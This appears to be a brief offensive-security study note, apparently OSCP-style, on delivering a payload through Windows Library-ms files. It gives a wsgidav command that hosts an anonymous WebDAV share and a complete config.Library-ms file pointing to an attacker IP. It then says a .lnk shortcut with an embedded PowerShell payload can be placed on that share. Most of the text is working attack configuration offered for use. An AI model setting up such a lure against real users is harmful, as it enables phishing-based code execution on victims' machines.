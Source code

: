 To have a location where a file can be put:
```
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /tmp/oscp/
```



The shortcut file will open the target directory in the `File Explorer` when double-clicked. From there, a `.lnk` can be used.
Name: `config.Library-ms`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.194</url>
<serialized></serialized>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

From this point, a `.lnk` file can be used with an embedded Powershell payload.